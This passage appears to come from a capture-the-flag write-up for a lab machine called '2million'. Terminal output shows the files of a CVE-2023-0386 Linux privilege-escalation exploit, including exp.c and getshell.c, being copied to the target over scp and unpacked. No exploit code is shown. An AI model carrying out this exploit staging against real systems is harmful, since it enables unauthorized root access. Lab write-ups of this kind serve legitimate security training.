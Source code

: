 ```bash
CVE-2023-0386/.git/hooks/pre-receive.sample
CVE-2023-0386/.git/hooks/prepare-commit-msg.sample
CVE-2023-0386/.git/hooks/push-to-checkout.sample
CVE-2023-0386/.git/hooks/update.sample
CVE-2023-0386/.git/info/
CVE-2023-0386/.git/info/exclude
CVE-2023-0386/.git/description
CVE-2023-0386/.git/refs/
CVE-2023-0386/.git/refs/heads/
CVE-2023-0386/.git/refs/heads/master
CVE-2023-0386/.git/refs/tags/
CVE-2023-0386/.git/refs/remotes/
CVE-2023-0386/.git/refs/remotes/origin/
CVE-2023-0386/.git/refs/remotes/origin/HEAD
CVE-2023-0386/.git/objects/
CVE-2023-0386/.git/objects/pack/
CVE-2023-0386/.git/objects/pack/pack-46235ee1668c8b5d52879e1075fe61f1153bdcd5.pack
CVE-2023-0386/.git/objects/pack/pack-46235ee1668c8b5d52879e1075fe61f1153bdcd5.idx
CVE-2023-0386/.git/objects/info/
CVE-2023-0386/.git/packed-refs
CVE-2023-0386/.git/logs/
CVE-2023-0386/.git/logs/refs/
CVE-2023-0386/.git/logs/refs/remotes/
CVE-2023-0386/.git/logs/refs/remotes/origin/
CVE-2023-0386/.git/logs/refs/remotes/origin/HEAD
CVE-2023-0386/.git/logs/refs/heads/
CVE-2023-0386/.git/logs/refs/heads/master
CVE-2023-0386/.git/logs/HEAD
CVE-2023-0386/.git/HEAD
CVE-2023-0386/.git/config
CVE-2023-0386/.git/index
CVE-2023-0386/Makefile
CVE-2023-0386/README.md
CVE-2023-0386/exp.c
CVE-2023-0386/fuse.c
CVE-2023-0386/getshell.c
CVE-2023-0386/ovlcap/
CVE-2023-0386/ovlcap/.gitkeep
CVE-2023-0386/test/
CVE-2023-0386/test/fuse_test.c
CVE-2023-0386/test/mnt
CVE-2023-0386/test/mnt.c
❯ scp CVE-2023-0386.tar admin@10.10.11.221:/home/admin/
admin@10.10.11.221's password: 
CVE-2023-0386.tar     100%  120KB 213.3KB/s   00:00    
```

```bash
admin@2million:~$ ll
total 156
drwxr-xr-x 4 admin admin   4096 May 19 03:50 ./
drwxr-xr-x 3 root  root    4096 Jun  6  2023 ../
lrwxrwxrwx 1 root  root       9 May 26  2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin    220 May 26  2023 .bash_logout
-rw-r--r-- 1 admin admin   3771 May 26  2023 .bashrc
drwx------ 2 admin admin   4096 Jun  6  2023 .cache/
-rw-r--r-- 1 admin admin 122880 May 19 03:50 CVE-2023-0386.tar
-rw-r--r-- 1 admin admin    807 May 26  2023 .profile
drwx------ 2 admin admin   4096 Jun  6  2023 .ssh/
-rw-r----- 1 root  admin     33 May 18 17:11 user.txt
-rw------- 1 admin admin    804 May 19 03:13 .viminfo
admin@2million:~$ tar -xvf CVE-2023-0386.tar 
CVE-2023-0386/
CVE-2023-0386/.git/
```